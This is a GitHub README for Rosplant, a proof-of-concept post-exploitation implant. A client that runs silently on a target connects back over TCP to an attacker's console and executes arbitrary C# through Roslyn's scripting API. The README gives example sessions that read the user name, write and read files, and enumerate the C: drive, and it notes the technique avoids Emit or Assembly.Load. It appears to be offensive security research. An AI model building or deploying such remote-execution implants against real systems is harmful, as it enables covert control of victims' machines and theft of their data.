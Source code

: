 # Rosplant

Proof of concept to leverage Roslyn for post-exploitation (Roslyn + Implant = Rosplant).  It comes in two parts, the server and client.

Raw C# is entered into the server's console by the attacker, which is sent to the client (via TCP for the PoC).  The client uses Roslyn to evaluate the code and sends the results back to the attacker.

Aspects to note:

- Using statements must be included or the full namespaces used.
- Use Shift+Enter for soft newlines.
- Compilation errors are also returned.

## Example Usage
Run the server first.

```
PS C:\Rosplant\RoslynServer> dotnet run
Waiting for client...
```

Run the client app on a target, it produces no output.

```
PS C:\> .\RoslynApp.exe
```

The server will note the connection.

```
PS C:\Users\Daniel\source\repos\Rosplant\RoslynServer> dotnet run
Waiting for client... connected!
>
```

Write code.

```
> 1 + 1
2

> var x = 1;
  x++;
  x++;
  x
3

> System.Environment.UserName
Daniel

> using System;
  Environment.UserName
Daniel

> System.DateTime.UtcNow
16/09/2021 12:55:13

> System.Environment.DoesNotExist
(1,20): error CS0117: 'Environment' does not contain a definition for 'DoesNotExist'
```

The app returns the string "Done" if the C# evaluation does not produce a result.  This is mainly because my basic code for reading/writing to the network stream sucks.

```
> System.IO.File.WriteAllText("C:\\Temp\\test.txt", "This is a test");
Done

> var text = System.IO.File.ReadAllText("C:\\Temp\\test.txt");
  text
This is a test
```

More complicated code can also be used.

```
> using System.IO;
  using System.Text;

  var files = Directory.GetFiles("C:\\");
  var sb = new StringBuilder();
  foreach (var file in files)
  {
      var info = new FileInfo(file);
      sb.AppendLine(info.FullName);
  }
  var result = sb.ToString();
  result
C:\DumpStack.log
C:\DumpStack.log.tmp
C:\hiberfil.sys
C:\pagefile.sys
C:\swapfile.sys
```

I find all this interesting since it uses `CSharpScript.RunAsync()` to evalate the code.  There is no Emit or Assembly.Load.

A lot of improvements could be made such as adding common namespaces by default and loading external references or nuget packages.